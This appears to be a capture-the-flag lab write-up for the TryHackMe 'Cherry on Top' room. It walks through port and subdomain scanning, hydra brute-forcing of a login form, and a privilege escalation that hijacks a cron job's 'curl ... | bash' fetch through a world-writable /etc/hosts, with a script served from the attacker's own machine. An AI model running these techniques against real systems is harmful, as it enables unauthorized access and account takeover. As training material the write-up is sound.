 

Network scan:
```
attack-box$ sudo nmap -sS -p- $target_ip -Pn -n --disable-arp-ping

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 12:33 UTC
Nmap scan report for 10.10.241.96
Host is up (0.039s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## First segment

Visiting the website on port 80, we find a video of Chad presenting his company. He hints
to look for subdomains so this would be the first step to do. Note that 13968 is the size of
the default response from `http://cherryontop.thm`

```
attack-box$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.241.96" -H "Host: FUZZ.cherryontop.thm" -fs 13968

...SNIP...
nano                    [Status: 200, Size: 10718, Words: 4093, Lines: 220, Duration: 657ms]
```

We can now add `nano.cherryontop.thm` to `/etc/hosts` and navigate to this subdomain using
the browser

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/313c62c0-18fd-4e49-a190-bb563677cbcd)

Enumerating further the found subdomain, we find a login portal
```
attack-box$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://nano.cherryontop.thm/FUZZ" -e .php

...SNIP...
images                  [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 27ms]
index.php               [Status: 200, Size: 10718, Words: 4093, Lines: 220, Duration: 27ms]
login.php               [Status: 200, Size: 2310, Words: 696, Lines: 60, Duration: 27ms]
css                     [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 23ms]
js                      [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 24ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 27ms]
                        [Status: 200, Size: 10718, Words: 4093, Lines: 220, Duration: 23ms]
.php                    [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 24ms]
bootstrap               [Status: 301, Size: 332, Words: 20, Lines: 10, Duration: 25ms]
jquery                  [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 25ms]
```

Trying some random usernames and passwords, we notice that the app says "This user doesn't
exist". This custom message makes it vulnerable to brute force using `hydra` as shown bellow.
Once a valid username is found, we can use the same technique to find a valid password.

```
attack-box$ hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p pass -m "/login.php:username=^USER^&password=^PASS^&submit=:F=This user doesn't exist" nano.cherryontop.thm http-post-form

...SNIP...
[80][http-post-form] host: nano.cherryontop.thm   login: puppet   password: pass
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-07 13:53:56

attack-box$ hydra -l puppet -P /usr/share/wordlists/rockyou.txt -m "/login.php:username=^USER^&password=^PASS^&submit=:F=Bad password" nano.cherryontop.thm http-post-form

...SNIP...
[80][http-post-form] host: nano.cherryontop.thm   login: puppet   password: master1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-07 14:00:20
```

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/08b7a9a5-ec70-4269-8291-454264ab02db)

Got access to Molly's dashboard. All blackmailed people are listed on the webpage. Scrolling
down to Jex entry, we find that Molly has left her SSH password in plain sight, good gor us.
We can connect to her account on the target machine and get the first segment of Chad's password.

```
n4n0c*****
```
{: file='chads-key1.txt'}

Extra content
```
Dear Chad,

Cherries, Ice Cream, and Milk,
In the bowl of life, we mix and swirl,
Like cherries, ice cream, and milk's swirl.
Cherries so red, plucked from the tree,
Sweet as your love, pure as can be.
Ice cream so smooth, so cool and white,
Melts in my mouth, with sheer delight.
Milk so pure, so creamy and rich,
The base of our love, the perfect mix.
Together they blend, in perfect harmony,
Like you and I, so sweet, so free.
With each bite, my heart takes flight,
As our love grows, so strong, so bright.
Cherries, ice cream, and milk,
Our love's ingredients, so smooth and silk.
Forever and always, our love will stay,
Like the sweet taste, that never fades away.

Love,
Molly

P.S. I'll hold on tight to that first part of your password you gave me! If anything ever
happens to you, we'll all be sure to keep your dream of erasing vim off of all systems alive!
```
{: file='DONTLOOKCHAD.txt'}

## Second segment
...


## Third segment

Connect to the machine via ssh backdoor
```
attack-box$ ssh notsus@<target_ip>
```

We find a note left by Jex on notsus' home directory
```
Hey good work hacker. Glad you made it this far!

From here, we should be able to hit Bob-Boba where it hurts! Could you find a way to
escalate your privileges vertically to access his account?

Keep your's eyes peeled and don't be a script kiddie!

- Jex
```
{: file='youFoundIt.txt'}

After initial enumeration, we find an interesting entry in the crontab, which is a potential
priviledge escalation vector to Bob account
```
$ cat /etc/crontab

...SNIP...
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   bob-boba curl cherryontop.tld:8000/home/bob-boba/coinflip.sh | bash
```

If we try to get `coinflip.sh`, we'll get the following error
```
$ curl cherryontop.tld:8000/home/bob-boba/coinflip.sh

curl: (6) Could not resolve host: cherryontop.tld
```

Interestingly, we find that `/etc/hosts` is write accessible by all users:
```
$ ls -l /etc/hosts

-rw-rw-rw- 1 root adm 312 Apr  8  2023 /etc/hosts
```

To exploit this weakness on the machine, we can setup our own server which will provide our
own `coinflip.sh` script. We can then add our server's IP address as the address of
`cherryontop.tld`. The command we use below will give us access to Bob's home directory.

```bash
mkdir server && cd server

mkdir home && mkdir home/bob-boba

echo "#!/bin/bash\nchmod 777 /home/bob-boba" > home/bob-boba/coinflip.sh
```

Now we start the HTTP server using python on the port 8000 and wait for the target machine
to request the script
```
attack-box$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

10.10.241.96 - - [07/Jul/2024 13:01:02] "GET /home/bob-boba/coinflip.sh HTTP/1.1" 200 -
```
```
$ ls -l /home

total 16
drwxrwxrwx 4 bob-boba      bob-boba      4096 Jan  5  2024 bob-boba
drwxr-x--- 5 chad-cherry   chad-cherry   4096 Jan  5  2024 chad-cherry
drwxr-x--- 3 molly-milk    molly-milk    4096 Apr  8  2023 molly-milk
drwxr-x--- 3 sam-sprinkles sam-sprinkles 4096 Nov 26  2023 sam-sprinkles

$ cd bob-boba

$ ls

bobLog.txt  chads-key3.txt  coinflip.sh
```

Content of Bob's home folder, including the third segment of Chad password:
```
Bob Log

4/10/20XX

One of the funniest parts of working for Chad is both how much debt we have and how much other
people owe us!

I know that Chad uses me as both his accountant and debt collector, but really, we need to
hire more henchmen.

Perhaps we can convince the Arch Linux users to join our cause... Hopefully none of them like
Vim, after all, Chad intends to eliminate every trace of the text editor and replace it with
Nano.

Either way, I gotta really protect this password segment Chad gave me in case of emergencies!

Bob
```
{: file='bobLog.txt'}

```
7h3f*****
```
{: file='chads-key3.txt'}











